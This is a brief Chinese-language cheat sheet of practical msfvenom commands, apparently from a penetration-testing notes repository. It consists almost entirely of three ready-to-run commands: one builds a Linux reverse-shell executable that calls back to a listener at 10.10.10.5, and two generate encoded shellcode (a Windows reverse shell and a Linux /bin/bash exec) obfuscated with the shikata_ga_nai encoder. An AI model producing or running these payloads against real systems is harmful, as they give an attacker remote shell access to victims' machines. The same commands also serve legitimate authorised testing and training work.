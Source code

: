 # Msfvenom 实战语句

- Msf 生成反弹 shell

```
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf -o shell.elf
```

- 生成二进制脚本

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.5 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c
```

```
sudo msfvenom -p linux/x86/exec CMD="/bin/bash" -b "\x00" -e x86/shikata_ga_nai -f c
```
